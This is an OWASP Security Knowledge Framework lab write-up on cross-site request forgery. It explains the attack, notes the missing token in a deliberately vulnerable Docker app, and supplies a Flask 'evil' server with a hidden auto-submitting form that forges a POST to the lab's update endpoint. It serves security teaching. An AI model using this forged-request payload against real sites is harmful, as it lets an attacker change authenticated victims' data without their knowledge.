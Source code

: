 # KBID 5 - CSRF

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:csrf
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csrf
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin  
password: admin
{% endhint %}

![](.gitbook/assets/screen-shot-2019-03-04-at-21.00.48.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.01.09.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.01.51.png)

Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.24.14.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.24.28.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Cross-Site\_Request\_Forgery\_\(CSRF\)" caption="" %}

